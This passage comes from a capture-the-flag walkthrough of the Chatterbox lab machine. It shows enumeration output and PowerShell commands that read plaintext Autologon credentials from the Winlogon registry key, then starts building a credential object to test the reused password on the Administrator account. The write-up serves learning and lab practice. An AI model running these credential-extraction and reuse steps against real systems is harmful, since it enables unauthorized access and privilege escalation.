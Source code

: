 We get back two interesting results.

```
[*] Checking for Autologon credentials in registry...

DefaultDomainName    :
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :

[*] Checking for unattended install files...

UnattendPath : C:\Windows\Panther\Unattend.xml
```

Viewing the* Unattend.xml *file, we see that the password was redacted. So let’s focus on the Autologon credentials. The default username is “_Alfred_” and the default password is “_Welcome1!_”. I don’t have much experience with Windows, so I googled [Autologin credentials](https://support.microsoft.com/en-ca/help/324737/how-to-turn-on-automatic-logon-in-windows) to learn more about it.

![](../img/Chatterbox Writeup wo Metasploit/1_oR22IbW1Do-rN8XOfFjtjQ.png)

As stated in the article, these credentials are stored in the registry in plain text. The manual commands for extracting these credentials are:

```
PS C:\Windows\system32> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName
Alfred

PS C:\Windows\system32> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword
Welcome1!
```

These credentials are set by the administrator. Since users have a tendency to reuse passwords, let’s see if the administrator account is set to the same password.

To do that, first run the following command to convert the plain text string “_Welcome1!_” into a secure string and store the result in the _\$password_ variable.

```
$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
```

- **ConvertTo-SecureString**: Converts plain text to secure strings.

- **-AsPlainText**: Specifies a plain text string to convert to a secure string.

- **-Force**: Confirms that you understand the implications of using the _AsPlainText_ parameter and still want to use it.

Second, create a new object to store these credentials.

```
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
```
